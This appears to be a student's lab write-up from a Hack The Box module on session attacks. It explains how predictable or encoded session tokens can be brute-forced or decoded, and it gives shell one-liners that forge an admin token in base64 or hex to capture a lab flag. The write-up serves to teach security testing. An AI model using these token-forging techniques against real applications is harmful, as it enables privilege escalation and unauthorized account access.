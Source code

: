 # 🕶️ Session Attacks

a common flaw in apps that use session token and the main danger is if a session token is too short or contains static data that does not provide randomness to the token

<figure><img src="../../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption><p>easy bruteforce</p></figcaption></figure>

Now a bit more complex but as easy to break ->

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This seems complex but let's say we send plenty of requests:

```
2c0c58b27c71a2ec5bf2b4b6e892b9f9
2c0c58b27c71a2ec5bf2b4546092b9f9
2c0c58b27c71a2ec5bf2b497f592b9f9
2c0c58b27c71a2ec5bf2b48bcf92b9f9
2c0c58b27c71a2ec5bf2b4735e92b9f9
```

the static string `2c0c58b27c71a2ec5bf2b4` followed by four random characters and the static string `92b9f9`

So we can still bruteforce

Some more realistic stuff would consist of session tokens that contains encoded data

This seems very random:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

But in fact ->

```shell-session
ElFelixi0@htb[/htb]$ echo -n dXNlcj1odGItc3RkbnQ7cm9sZT11c2Vy | base64 -d

user=htb-stdnt;role=user
```

So we could create our session token with a simple command:

```shell-session
echo -n 'user=htb-stdnt;role=admin' | base64
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We should also keep an eye out for data in hex-encoding or URL-encoding.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>hex-encoded data</p></figcaption></figure>

And to craft a session token we could simply use the follwoing:

```shell-session
echo -n 'user=htb-stdnt;role=admin' | xxd -p
```

_**Obtain administrative access on the target to obtain the flag.**_

```
echo -n 'user=htb-stdnt;role=admin' | xxd -p
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
